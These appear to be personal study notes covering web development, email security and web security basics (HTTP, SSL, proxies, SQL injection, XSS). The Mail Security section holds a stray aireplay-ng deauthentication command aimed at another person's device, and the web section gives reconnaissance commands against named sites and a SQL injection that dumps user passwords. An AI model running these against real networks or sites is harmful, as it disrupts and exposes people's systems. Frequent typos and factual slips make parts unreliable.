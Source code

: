 * Web Design
** Bootstrap

   Free and open-source CSS framework directed at responsive,
   mobile-first front-end web development. It contains CSS and
   optionally JavaScript based design templates for typography, forms,
   buttons, nvigation and other interface components.

   Front-end Web Development is the practice of converting data to a
   graphical interface, through the use of HTML, CSS and JavaScript
   so that users can view and interact with that data.

** PHP

   If you want to make dinamic page install PHP in your server

   PHP can manage your page as modules, making a more clean and easy
   job. Do this using Include or Require to add a file

   All PHP variables start with $
  
   PHP can live in HTML code perfectly with '<?php ... ?>'

   HTML bold tags and such can be used inside PHP's echo declaration
  
   PHP coments start with // for one line and "/* ... */" for several
   lines
  
   In PHP, Variables must:

   1. start with a letter or a "_" in its name
   2. The name of the variable cannot start with a number
   3. Can only contain alphanumeric characters and "_"
   4. A Sensible to mayus

   The types of variables in PHP can be: 

   - String
   - Boolean
   - Bloat
   - Integer

   PHP automatically 'transforms' the type of the variable to the one
   needed, so if you want to print a Integer, it's automatically
   transformed into string.

   PHP can mainly perform:

   - Generate contain on a web page and make it dinamic
   - Modify a file as you would normaly in any OS in the server side
     (create, write, delete, deploy, etc)
   - Recopile information written in formularies
   - Insertion, delete and modification of information on a data base
   - Managing users access
   - Data encryption

   PHP can also be used inside HTML not only by "<?php ... ?> ", but
   also by using the "<script language="php"> ... </script>" tag. If
   the server supports it, PHP abbreviated tag '<? ... ?>'

   PHP has a 'echo' functin which give text output. More specific, it
   isn't a function, more a language constructor. As is, it doesn't
   require '()'

   Every PHP declaration ends with a ';'

   PHP scripts are runned in the server side, not by the client

** HTML

  HTTPs is important, use certbot in your server to get it

  HTML is tags, having a basic skeleton for your page is good, and you
  can also use templates, if there's a tag you don't understand,
  search it in: w3schools, works with CSS too

  HTML is a set of instructions that explains how information sent
  from a web server (Apache, IIS) is to be displayed in a browser.
  The World Wide Web Consortium (W3C) is the standards organization
  governing the workings of HTML. 

  HTML can also provide data entry forms, for server-side processing
  by a higher level language (Perl, PHP, etc). In a business setting
  this is where HTML is most useful, but in a hacker setting this is
  where HTML is most vulnerable.

  HTML is supposed to be a standard format across all platforms
  (browsers and operating systems), yet this isn't always the
  case. Some browsers read the HTML slightly different that other
  browsers just as other OS's wont be compatible with other operating
  systems. Be sure to cross check your HTML code against other types
  of browsers to ensure it is interpreted correctly.

  The new flavor of HTML, HTML5, brings a lot of security
  improvements. It doesn't require flash to stream videos, which is a
  huge leap in terms of preventing unwanted tracking and the endless
  vulnerabilities of Flash.

  On the other hand, it carries a whole stack of new problems with it.

  Cross Domain Messaging (PostMessage) or Web Messaging lets HTML5
  escape the hacks used in HTML4 when documents come from more than one
  source. This kind of messaging requires a lot of trust - and some
  very secure coding.

  Cross Origin Resource Sharing is when a web server allows its
  resources to be used by a separate domain. Again, this is cool way
  to mash up content from multiple sources - but this level of trust
  just begs to be cracked.

  WebSockets provides asynchronous full duplex communication. That's a
  mouthful, but eseentially it means your browser can bypass the usual
  security measures in return for pure speed.

  Local Storage APIs let web pages store data on your computer. Did
  you know all contemporary browsers include a mini-database called
  SQLite? Now jus wonder: what's stored on your computers database?
  All kinds of interesting things about you, right?

*** HTML Injection and XSS

    When a payload travels from a URL parameter to a cookie and back
    again, say farewell to your security.
    
    The payload is the part of transmitted data that is the actual
    intended message. Headers and metadata are sent only to enable
    payload delivery.

    When you send API requests you are trying to get a service to 'do
    something.' The service will then tell you what it did or give you
    what it asked for. The payload is the part of that response that
    is communicating directly to you.

    Let's say you see a random picture of a cat. You go to the cat API
    and you send an API request. You get back an JSON object with a
    link to a cat picture along with a few other pieces of
    information. That JSON is the payload.

    Payload isn't something you get frojm the server. You can also
    send payload to the server as well. This is known as the body of
    your request and is once again usually a JSON object that you send
    to the server. It is used to make more complex request or when you
    are trying to create or modify an object on the service and you
    need to give it information about the object you are creating.

    The payload is the data you are interested in transporting. This
    is differentiated with the things that wrap the data for transport
    like the HTTP/S Request/Responde headers, authentication, etc...

    The term 'payload' is used to distinguish between the
    'interesting' information in a chunk of dta or similar, and the
    overhead to support it. It is borrowed for transportation, where
    it refers to the part of the load that 'pays': for example, a
    tanker truck may carry 20 tons of oil, but the fully loaded
    vehicle weighs much more than that, buit the customer only pays
    for and cares about the oil, this oil is the 'pay-load'

    In programming, the most common usage of the term is in the
    context of message protocols, to differentiate the protocol
    overhead from the actual data. Take, for example, a JSON web
    service response that might look like this:

    #+BEGIN_SRC 
    
    {
       "status":"OK",
       "data":
           {
	        "message":"Hello, world!"
           }
    }	   

    #+END_SRC
    
    In this example, the string is the payload, the part that the
    recipient is interested in; the rest, while vital information, is
    protocol overhead.

    Another notable use of the term is in malware. malicious software
    usually has two objectives: spreading itself, and performing some
    kind of modification on the target system. The spreading part is
    the overhead, while the code thawt does the actual evil0doing is
    the payload.

    - Database :: A database is just a collection of organized
                  information.
    - API keys :: API keys allow you to access databases, kind of like
                  a username and password. When you sign up to a
                  service, you are provided with a unique set of API
                  keys.
    - Query :: Request to get information from a database
    - API Request :: Query to a database for a API

    API stands for Application Programming Interface, it is a way to
    communicate between applications.

    In computer programming, and APi is a set of subroutine
    definitions, protocols, and tools for buildiong software and
    applications. A good API makes it easier to develop a program by
    providing all the building blocks, which are then put together by
    the programmer. An API may be for a web-based system, operating
    system, database system, computer hardware or software library. An
    API specification can take many forms, but often include
    specification for routines, data structures, object classes,
    variables or remote calls. POSIX, Microsoft Windows API, the C++
    Standard Teplate library and Java APIs are examples of different
    forms of APIs.

    Every time you make a call to a server in name of an application
    using a SDKs or a API, it counts as an API request. logins, saves,
    queries are examplesoperations counted as API requests among other
    types of operations. For example, you downloaded an app on your
    smartphone, opened it and the application asked your Email and
    Password. At the moment you press Register and send your data to
    the API it is counted as one API request.

    You have to access the database of the service you are registering
    it, in order for your information to be saved, so an API request
    and API are used to access a database.

    Any code that you can call has an API.

    Making a request to an API, you probably talking about any kind of
    web hosted service that you can request via the HTTP protocol. In
    that case, an API is all the HTTP URIs available for yout call.

    A file in a web server can be requested with multiple HTTP verbs
    such as GET, POST< PUT and so on. All those combinations of URIs
    and HTTP verbs form the API to an web service.

    Representational State Transfer (REST) is a software architectural
    style that defines a set of constraints to be used for creating
    Web services. Web services that conform to the REST architectural
    style, called RESTful Web services, provide interoperability
    between computer systems on the internet.

    RESTful Web services allow the requesting systems to access and
    manipulate textual representations of Web resources by using a
    uniform and predefines set of stateless operations. Other kinds of
    Web services, such as SOAP Web services, expose their own
    arbitrary set of operations.
    
    "Web Resources" were first defined on the World Wide Web as
    document for files identified by their URLs. However, roday they
    have a much more generic and abstrac definition that encompasses
    every thing or entity that can be identified, named, addresses, or
    handled, in any way whatsoever, on the Web. in a RESTful Web
    service, requests made to a sresource's URI will elicit a response
    with a payload formatted in HTML, XML, JSON, or some other
    format. The response can confirm that some alteration has been
    made to the stored resource, and the response can provide
    hypertext links to other related resources or collections of
    resources. When HTTP is used, as is most common, the operations
    (HTTP methods) available are GET, HEAD, POST, PUT, PATCH, DELETE,
    CONNECT, OPTIONS and TRACE.

    By using a stateless protocol and standard operations, RESTful
    systems aim for fast performance, reliability, and the ability to
    grow by reusing components that can be managed and updated without
    affecting the system as a whole, even while it is running.

    The GET method is sage, meaning that applying it to a resource
    does not result in a state change of the resource. The GET, PUT
    and DELETE methods arre idempotent, meaning that applying them
    multiple times to a resource result in the same state change of
    the resource as applying them once, though the response might
    differ.

*** Cross Domain Messaging (HTML5)

    Due to the same origin policy restrictions before HTML5, sending
    messages between windows was only possible if both windows used
    the same protocol, port and host.

    With HTML5, all those restrictions are gone and we can now pass
    messages across domains without having to worry about Same Origin
    Policy restrictions.

    HTML5 has a new method called postMessage(). Using this, we can
    pass messages between windows regardles of their origin.

** Apache

   Once a server with GNU/Linux installed is adquired (preferably
   Debian), update the system  and install apache to generate a
   document root of your page (the "home" of your page).

   The document root is the start of your page, where all the files
   that you will share will be, the root of your page.

   Apache is a web server.

   A web server is the software that receives your request to access a
   web page. It runs a few security checks on your HTTP request and
   takes you to the web page. Depending on the page you have
   requested, the page may ask the server to run a few extra modules
   while generating the document to serve you. It then serves you the
   document you requested.

** JavaScript

   To interesting visuals, Javascript

** MariaDB (MySQL)

   To manage data (necessary in some CMS as Odoo), install MariaDB or
   MySQL

   MariaDB is used a lot in webpages

** CMS

   Joomla is an Open Source CMS
** CSS

   CSS is very good for your page, and learning positioning is a good
   thing to do.

   CSS positioting, there are five position:

   Static position: Normal behavior

   #+BEGIN_SRC css

     h1{
	 position: static;
     }    

   #+END_SRC

   Position Relative: after adding position relative to an item, we
   now have access to four more properties, top, bottom, left and
   right.

   This moves the item anywhere we want based on its original
   position.
   
   We now have control over any direction, this from its original
   position:

   #+BEGIN_SRC css

     .item1{
	 background-color: #508AA8;
	 position: relative;
	 top: 50px;
	 left: 50px;
	 bottom: 50px;
	 right: 50px;
     }

   #+END_SRC
   
   Position absolute: If we add bottom of 0px, it's gonna be 0px away
   from the bottom.

   Position fixed: It will be stuck always on the screen.

   Position sticky: top: 0;. It's gonna stick in the top.

** HTTPS
  
   To add HTTPS to a Server, thus the Web Page, use certbot

* Mail Security
  
  Use GPG for good email security

  GPG's encrypted mail contains an attachment flagged as GPG, or a
  textblock with a header that tells a GPG-capable email client it has
  just received an encrypted message. 

  After receiving an encrypted mail, an email client will access your
  private key (possibly via password) and decrypt the message.

  If a encrypted message was not encrypted with your public key, any
  decryption with your key will fail.

  If the encrypted message was signed by the sender, the GPG plugin
  will use the corresponding public key to verify that signature.

  GPG plugins alert you to problems with signatures or attachments.

   GPG is not easy to implement in a webmail environment, this also
   implies to trust the third party tool you're using, since a MIM can
   exist.
   
   expiration doesn't stop the keys from working.

   To another person: aireplay-ng -0 0 -a (MAC AP) -c (TARGET) -x 150 (device in
   monitor mode).

   Email Server-Side Vulnerabilities and Threats

   Bandwidth Eating

   The ability to inspect email traffic (outbound and especially
   inbound) is needed on an email server, as well as filtering bad
   emails will save bandwidth and CPI server processing. Fail to do
   this will be a possibly infected and slow server.
   
   One technique consist on eliminate an email after a certain amount
   of time, this prevents deleting of email traffic that the user
   might be expecting.

   In a mail server, any user with admin privileges should not read or
   send any email, those privileges are only used for internal network maintenance

   Email Server Threats:

   Large web email cleints like Gmail or Microsoft use DomainKeys
   Identified Mail (DKIM) as a cryptographic email signature program
   for security.

   DKIM wraps a cryptographic signature around an email that verifies
   the domain name that the message was sent through. DKIM helps
   filter out spoofed messages from legitimate ones.

   DKIM test messages carry a problem, any person could send a falh
   that it is testing DKIM in messages. Some recipiens will accept
   DKIM messages in testing mode when the messages should be trated as
   if they were not DKIM signed.

   Also, DKIM signature key is small, so it could be cracked and
   discovered by a hacker. This information then be used for spoof or
   send malware using the user's discovered email key and address.
   
   DKIM is designed to act as a "trust" verification tool for
   email. The system uses public-key cryptography, like PGP. With
   proper use, an email can be traced back to its original sender
   through a domain verification process. This is called non-repudiation.

   In non-repudiation the information provided cannot be changed, the
   information is not refutable. This is important when dealing with contracts.

   WpsSyns is to enter network by several PINs and MAC addresses. (for android)

   A simple but often missed email security method is scanning of all email
   attachments. Scanning needs to be performed on all data packets, compressed
   files, unknown file types, split files, files that can do the splits, files
   that spit, meta data, files with URLs, and pretty much every type
   of file.

   One should  use Data Loss Prevention (DLP).

   Keyword filtering is a type of application layer filtering that lets
   you block all messages containing particular keywords or phrases that commonly
   appear in spam. Other forms of email filtering include:

   Address Blocking: blocks mail from particular IP addresses, email addresses or
   domain of known spammers.

   Bayesian Filtering: "intelligent" software that can analyze spam messages and
   learn to recognize other messages as spam using heuristics (patterns of
   behavior).

   Blacklisting: List of known spammers' addresses can be shared, so each user
   doesn't have to develop a list from scratch. THese lists are available from
   several providers, and are highly valuable for address blocking.

   Whitelisting: Instead of specifying which senders should be blocked, specifies
   which senders wshould be allowed. Again, these lists are used as part of
   address blocking.

   Greylisting: Temporarily blocks email from unknown
   sources. Legitimate email will be re-transmitted, but spam usually
   won't.

   Challenge/Response filtering: replies to email from senders not on a "trusted
   senders" list with a challenge, usually involving solving a task that is easy
   for humans but difficult for automated bots or scripts.

   There are open-souce or payed applications that do filtering.

* Android Hacking
  
  You need a PC, you have to first, open ports

* Fundamentals of Web Security

  TCP mission is to deliver packets of date from one source to a destinationl


  The web seem pretty simple: you get onto the Internet, open a
  browser, type in a website URL, and the page appears. But the
  devil's in the details, and some of them can hurt you.

  For standards of the web and history, visit http://www.w3.org. These
  standards and definitions might teach you how to be sage. But the
  people who want to hurt you don't follow standards or laws.

  1. You open your browser.
     
  2. You type in the Uniform Resource Locator (URL) into the browser's
     address line (the website address, like ISECOM.org; also called
     URI for Uniform Resource Indicators.

  3. The website URL is saved in the browser's history on the hard
     disk. There's a record of every page, as cache.

  4. Your computer asks your default Domain Name Server (DNS) to look
     up the IP address of the website. The DNS connects the name
     www.ISECOM.ORG to the IP address of 216.92.116.13. Use ping for
     this.

  5. Your computer connects to the website's server, at the IP address
     it was given by the DNS, to TCP port 80 for "http://" websites,
     or TCP port 443 if you go to an "https://" secure web site. If
     you use https:// there are more steps like getting server
     certificates that we won't cover in this example.

  6. Your computer request the page you ask for (like index.html), or
     if you specify a folder the web server sends a default page,
     usually index.html. It's the server that decides this default
     file, not your browser.

  7. Your IP address, the web page you are visiting and details about
     your browser are likely to be stored on the web server and/or
     proxy servers in between.

  8. The requested we page is stored in the browsers cache. 

  9. Most web pages contain other elements, pictures, ads, style
     sheets, Javascript. All these elements are retrieved by the web
     server and sended to the client.

  10. The browser shows you what it has stored on your browser's
      cache. There's a difference between "perceived speed" and
      "actual speed". This is the difference between how fast
      something is downloaded (actual) and how fast your browser and
      computer can render the page and graphics to show them to you
      (perceived). Just because you didn't see web page elements
      doesn't mean it didn't end up in your browser's cache.

      The Web is a massive client-server network. Clients are typical
      users who run web browsers to display or capture Internet
      data. Servers are web servers, such a Internet Information
      Server (ISS) on Windows or Apache on Unix/linux. So the browser
      asks for a page, and the web server returns content in the form
      of Hyper Text Markup Language (HTML) pages.

      Standard HTML pages are transferred using Hyper Text Transfer
      Protocol (HTTP). It's a simple text-based system for connecting
      to a server, making a request and getting an answer. This means
      that we also can connect easily to a server using command line
      tools like telner and netcat, and get information about what
      software is running on a specific server. Look at what you get
      when you run this simple two-line command:

      netcat isecom.org 80

      HEAD / HTTP/1.0

      HTTP/1.1 200 OK 
      Date: Wed, 29 Deb 2019 23:25:54 GMT
      Server: Apache/2.2.22
      Last-Modified: Tue, 07 Deb 2019 18:41:18 GMT
      ETag: "3dad-4b8641fe2280"
      Accept-Ranges: bytes
      ContentLength: 15789
      Identity: The Institute for Security and Open Methodologies
      P3P: NOt supported at this time
      Connection: close
      Content-Type: text/html

      Every web server and version will return different information
      at this request - an IIS server will return the following:

      netcat www.microsoft.com 80

      HEAD / HTTP/1.0
      
      HTTP/1.1 200 OK
       Connection:close
       Date: .......... GMT
       Server: Microsoft-IIS/6.0
       P3P: CP="ALL IND DSP COR ADM CONo CUR CUSo IVAo IVDo PSA PSD
      TAI TELo OUR SAMo CNT COM INT NAV ONL PHY PRE PUR UNI"
       X-Powered-By: ASP.NET
       X-AspNet-Version: 1.1.4322
       Cache-Control: public, max-age=9057
       Expires: ....... GMT
       Last-Modified: ..... GMT
       Content-Type: text/html
       Content-Lenght: 12934
       
  Getting More Details:
 
  You can take this further and obtain more information by using the
  "OPTIONS" modifier in the HTTP request:

  netcat isecom.org 80
  OPTIONS / HTTP/1.0

  This gives you all of the HTTP commands (or "methods") to which the
  server will respond in a specific directory (in this case "/", the
  root directory of the web server or "document root").


  Notice that HTTP is completelty in the clear"; everyone can see what
  you're browsing for. 

  Secure Searching

  Nikto is a Perl script that carries out various tests
  automatically. It runs a scan and provides a detailed report:

  ./nikto.pl -host www.hackerhighSchool.org

  Almost every one of nikto's lines represent a possible vulnerability
  or exploitable code. Using various options you can fine tune nikto
  to do exactly what you need, including stealth scans, mutation and
  cookie detection.

  Finding a vulnerability is all well and good but what you do with
  that information is a whole different story. Security professionals
  will take the scan results of their own web server and patch,
  update, remove, repair or do whatever they need to do in order to
  close each vulnerability. 

  One can use several databases
  (http://mire.org/work/cibersecurity.html) that collect and catalog
  every known vulnerability you could imagine.

  These databases, "Common Weakness Enumeration (CWE)" and "Common
  Vulnerabilities and Exposures (CVE)" are simple to operate. These
  systems are a collection of other tools and data with a search
  engine built into each datatabase. Each data repository is focused
  on different aspects of hardware, software, services, system
  configurations, and compliance requirements.

  Looking at the results nikto gave us earlier, you can see near the
  bottom of the log are the letters OSVDB followed by a bunch of
  numbers. OSVDB stands for the Open Source Vulnerability Database
  located at OSVDB.org. In the log results from nikto the numbers
  after OSVDB identify a specific type of vulnerability.

  HTTP in plain text isn't good for security, if the file is
  'retrieved' it can be seen fully, one should always add encryption.

  This encryption is added using SSL/TLS (or simply SSL), a
  cryptographic suite encompassing secure ciphers implementing 40 to
  128 bit (or mode) symmetric key encryption methods.

  40 bit is weaker than 128 bit. The stronger the key algorithm of
  use, the longer it will take to encrypt and decrypt.

  an open source version is available called "OpenSSL" and can be
  found at openssl.org. It works alongside Transport Layer Security to
  provide an entire library of cryptographic recipes. OpenSSL is a
  command line tool with many options to work with. 

  For known HTTPS attacks there are more complex approaches using
  something called a known cyphertext attack. This involver
  calculating the encryption key by analyzing a large number of
  messages (over a million) to deduce the key. Along with cyphertext,
  you will find multiple attack methods that are discovered everyday.

  You shouldn't rush to try and crack 128 bit encryption. Since SSL
  just encrypts standard HTTP traffic, if we set up an *SSL tunnel*, we
  can query the server just as we did earlier. Creating an SSL tunnel
  is a snap, especially since there are utilities like openssl and
  stunnel made just for the job.

  SSL is designed around trust. The browsers contain certificates,
  really long numbers that serve as keys. These is a way to check if
  the server is of trust.

  The theory is that if the domain name matches the SSL certificate
  of the server as the domain that we visited then it's
  trustworthy. But a criminal could infiltrate certificate authorities
  and got keys to fake their own server certificates that your browser
  then tells you that are trustworthy.

  ISECOM researched trust, and discovered 10 main properties, there
  are 10 things that need to be evaluated to have logical trust:

  - Size :: The number of subjects the trust extends to.

  - Transparency :: The level of visibility of all operational parts
                    and processes of the subject and its environment.

  - Symmetry of trust :: The vector (direction) of the trust.

  - Subjucation :: The amount of influence of compromise or corruption
                   of the subject.

  - Consistency :: A historical evidence of compromise or corruption
                   of the subject.

  - Integrity :: The amount and timely notice of change within the target.

  - Offsets :: These are offsets of sufficient assurance, the
               compensation paid to the source or punishment for the
               subject when the trust is broken. It's a valued placed
               on the trust with the target.

  - Value of reward :: The financial offset for risk is the amount
       of win ot gain for the source where the potential gain for
       giving trust to the subject is sufficient to offset the risk
       of breach of trust.

  - Components :: This is the number of elements which currently
                  provide resources which the subject relies on either
                  directly or indirectly.

  - Porosity :: This is the amount of separation between the subject
                and the external environment.

  Our parent organization ISECOM pioneered the field of trust
  analysis: the study of reasons we trust - and which reasons are
  actually good ones.

  A proxy server (or just proxy) is a middleman in the HTTP
  transaction process:

  - The client (your browser) sends its request to the proxy

  - The proxy stops and holds your request, then sends its own request
    to the web server

  - The web server (which doesn't even know  who you really are)
    responds to the proxy

  - The proxy relays the response back to the client, completing the
    transaction.

  A proxy can be a server on your own network that lets you pass your
  connection through it. This is handy because it gives you some
  protection, since the proxy hides your identity and acts as a
  firewall between you and the rest of the web. But you can also use a
  proxy server that's our on the Internet, which hides you even better
  (on-line you can find many lists of publicly available proxy, such
  as http://tols.rosinstrument.com/proxy/). These external proxy
  servers provide critical access to the outside world for people in
  countries that censor or cut off their ISP's connections to the
  Internet.

  But, as you might have figured by now, proxy servers are vulnerable
  to attack themselves, and can become jumping-off points for
  launching attacks on other servers. Not to mention that you may be
  going through one and not even be aware of it - which means it's
  recording everything you do. This is something you especially want
  to consider if you use a free public proxy server. There is
  absolutely no guarantee the owner of that proxy is honest and will
  not use your username/password or credit card details. 

  You can run a proxy server right on your local computer. IT won't
  change your souce IP address (because its address is the same as
  yours), but it can prevent caching and filter our undesirable
  content.

  *Privoxy*

  The Onion Router, or TOR, was created to hide your IP address - many
  times over. When you use the TOR network, your traffic gets
  encrypted and passed along through a tangle of routers, and
  eventually emerges .. somewhere. But in theory your traffic can't be
  traced back to you. In theory. In reality, some things - like using
  Flash on Tor - has given unsuspecting users bad surprises.

  Technically, you could set up TOR yourself, which involves some
  interesting configuration. We recommend it for the learning
  experience. However, most of us mere mortals will appreciate the TOR
  Browser, which has all the defaults set for safety, and lets you do
  all that interesting research in a separate browser.

  old-school coding in languages like C++ meant hours of deep coding,
  then compiling binaries, machine-language instructions that run very
  quickly. If you want raw horsepower, and have a swhole lot of time
  on your hands, this is the world for you.

  The rest of us will use scripting languages to write scripts,
  programs written in plain text that are interpreted at runtime by
  binaries (that you don't have to write) underneath. They don't run
  as fast as freestanding binaries, but with the very fast processors
  we have today, you may never notice the difference.

  Scripting languages are great for dynamic web pages, but they also
  create a new avenue of attack for hackers. Most web applications
  vulnerabilities aren't caused by bugs in any particular language,
  but by bad coding and poor web server configuration. For example, if
  a form requests a zip code but the user enters "abcde", the
  application should return them to the form and point out the
  error. This is called input validation. Here are some of the most
  common scripting platforms today:

  Common Gateway Interface (CGI): This is the granddaddy of scripting
  interfaces, and it's not really a language itself; it's a way to run
  scripts. Perl was one of the most popular scripting languages to
  write CGI programs in the early days, though it's not used much for
  web pages anymore. Perl is, however, very useful for hackers, and
  many handy tools are written in this language.

  PHP: PHP is a very popular open-source scripting language that runs
  on the server before the page is sent to the user. THe web server
  uses PHP to get data from databases, respond to user choises and
  build a dynamic page with the information the visitor wants. HTML
  displays static content; PHP lets you create pages that give the
  user dynamic, customized content based on their input. Web pages that
  contain PHP scripting usually have a file name ending in ".php".

  Python: Another popular language, Python is a competitor to PHP, and
  does many of the same things. Many web sites use both PHP and Python
  (as well as other languages), including Google.com, Yahoo.com and
  Amazon.com. Python scripts usually have the file extension .py. In
  the world of security, you ought to know as much as you can about at
  least one language. The flavor used today for security pros is
  Python.

  Active Server Pages (ASP): Web pages that have a .asp or .aspx
  extension (ASPs) are database-driven and dynamically generated just
  like PHP or Python pages. ASP was Microsoft's first server-side
  scripting engine for the web. Its popular successor, ASP.NET, is
  built on the Common Language Runtime (CLR), allowing programmers to
  write code using any supported .NET language, such as: C# VB.NET,
  Jscript.NET, etc. 

  Java Server Pages (JSP): It's a technology that helps software
  developers create dynamically generated web pages. JSP is similar to
  PHP, but it uses the Java programming language. To deploy and run,
  a compatible web server with a servlet contained (such as Apache
  Tomcat) is required.

  Coldfusion and Ruby have their own cult followings, and there are
  dozend less-well-known languages that can do very interesting
  things.

  Javascript: Javascript (NOT the same thing as Java,
  runs on more web pages than any language besides
  HTML. It's different form the scripting languages above, because it
  doesn't run on the server to generate a page. Instead, it runs in
  your browser after the page arrives. This gives you visual effect
  like fly-out menus, expandable and collapsible sections of pages
  and "live" interaction with the page. Practically every dynamic page
  uses Javascript somewhere, and it's the front line of defense for
  validating the information people submit via forms. However, note
  that client-side input validation only is not enough to guarantee
  protection agains attack targetting dynamic web applications
  parameters. One example of ways to abuse client-side scripting is to
  pull up a web page, fill in the form, and capture it with a
  specialized proxy. The proxy lets you rewrite the code in the
  returned page and send it back using bogus values. You could also do
  this by "saving" the web page, editing the code, then sending it
  back using netcat. Or you could simply disable Javascript in your
  browser, using either built-in controls or add-ons.

  Web Vulnerabilities:

  Giving someone what they ask for is simple; selling them something
  is a lot less simple. Online stores, companies selling products,
  bloggers selling ideas and personality, or newspapers selling news -
  all require more than just HTML-encoded tet and pictures. Dynamic
  web sites that market products based on your preferences, show you
  alternatives, recommend other options, up-sell add-ons and make sure
  you pay for what you get require complex software. Ther's no longer
  static web sites, they're web applications. When we say goodbye to
  web sites and hello to web appliciatoins, we enter a whole new world
  of security issues.

  We mentioned earlier "complexity breeds insecurity". Now we are
  going to look at the true meaning behind that mantra. When the
  automobile was first invented, it was nothing more than a wheel, one
  simple wheel. Some folks thought that the wheel was just fine but
  other people wanted to improve on that wheel. These early hackers
  began to add omre wheels together attached with an axle and a
  frame. Others added seats to the frame and still more added a fancy
  horn or installed a horse as the engine. As time went on, this
  simple wheel automobile slowly took shape into a fast multi-horse
  drwan carriage. Luckily, someon added a brake brfore too many other
  got hurt. Today, we have airbags, seat belts, V-8 engines, and
  really great sound systems in our cards without having to smell
  horse dung all the time.

  The Internet's evolutino has progressed in a similar fashion. People
  weren't happy staring at a green isplay screen so they added a color
  monitor. THe old dreary ASCII text became flashing lights and splash
  colors with midi sounds giving way to 3-D surround sound. Each new
  upgrade to the Internet added an ew level complexity, another layer
  of vulnerabilities to consider.

  SQL Injection:

  A SQL Injection isn't so much as an attack agains a web site but
  rather an attack to gain access to databases behind the website. THe
  primary purpose of a SQL Injection is to bypass the webpages. An
  attacker will want to gain either super user privileges to the
  databases associated with the web site or get the web page to dump
  database information into the attacker's hands.

  SQL is the basic building block ofr databases. SQL commands will
  perform whatever task it is asked, including giving up passwords,
  credit card numbers, and so forth. All the attacker is doindg is
  adding rogue SQL code (injecting) to any open form field on a web
  page.

  For example, a web page asks a user if they would like to sign up
  for a monthly newsletter. THe page will have open field fo the user
  to enter their name, email address, and whatever else the web
  builder wants. Each open field allows a user to input text, which is
  then stored in a database. A SQL injection simply requires an
  attacker to input SQL commands into the open fields. If the open
  fields are not protected (parsed) against allowing such commands,
  the attacker can easily type a requesti nto an open field for a
  password list.

  Here is an example of such a SQL request that has been slightly
  sanitized for your protection.
  
  <?php
  $query  = "SELECT '1', concat (uname||'-'||passwd) as name,
  '1971-01-01', '0' from usertable;
                      WHERE size = '$size'";
  $result = odbc_exec($conn, $query);
  
  ?>

  SQL injections are the most popular form of attack vectors. THis
  attack can be rendered useless by correctly filtering SQL escape
  characters in user input fields or building your web site without
  using SQL. Don't forget about the URL field, that's a user input
  field too! Not to mention HTTP headers, cookies and more.

  Buffer Overflows:

  Think of a buffer as a smal cup. THis buffer cup holds a certain
  amount of data and will spill if too much data is added. When the
  buffer cup overflows, because someone ior something tried to add too
  much data, the system behaves strangely. Then a system behaves
  strangely, other weird things can happen. A buffer overflow is an
  attack (or accident) where too much data is forced into a buffer
  that was only built for a certain amount or type of data.

  When we look to the same open fields used in SQL injections, we can
  insert massive amounts of givverish into fields that were designed
  to handle 25 characters. What happens when we add 1 million
  characters th that same field? The web page goes a little crazy and
  can provide an entry point to an attacker.

  Buffer overflows can be avoided by limiting the amount of acceptable
  data to each open field an ensuring rogue code/commands can't be run
  inside these user input fields.

  Cross Site Scripting (XSS):

  Our first two vulnerabilities were direct attacks against a
  server. XSS is a client side vulnerability that exploits a useir's
  trust to gain access into the web servers the client is looking
  at. A good example of this type of attack is when an attacker hitch
  hikes on a users browser while that user is logged in to a security
  site, such as a bank. The attackers preys on the users established
  trust between the user and the bank to gain access.

  The attacker has vaious methods to piggy-back on users
  browsers. Some attackers will establish a Phishing web site or
  created web site that look identical to none the user would vitsit
  Since few people pay any attention to the URL ield in their browser,
  it is fairly common for an attacker to lure a victim into allowing
  malware to be installed in their browser. Email is the preferred
  method to install malware since humans are, well, human.
  
* To read

  The 4-Hour Workweek: Escape 9-5, Live Anywhere, and Join the New Rich

  Tech Interview Handbook github
  
  Free Programming books github (ebook foundation)

  Free for dev (ripienaar)

  You don't need (you don't need)

  zdnet.com (cybersecurity)

  Surveillance

  Techrepublic.com/resources

* Cybersecurity Tips

  Knowing where to look and what to look for is only part of the security
  battle. Networks are constantly being surveyed, analyzed, poked and prodded.
  If the network you are protecting isn't being watched then you aren't using
  the right tools to detect that behavior. If the network you're craking isn't
  being watched, you may (may) get away with scanning it. As a cyber secrity
  expert, you should know every inch of the systems you are protecting - or
  testing. You need to know where the weaknesses are and where the strength are
  as well, regardless of which side you're on.

  Simply gathering up intelligence on a server, such as the operating system
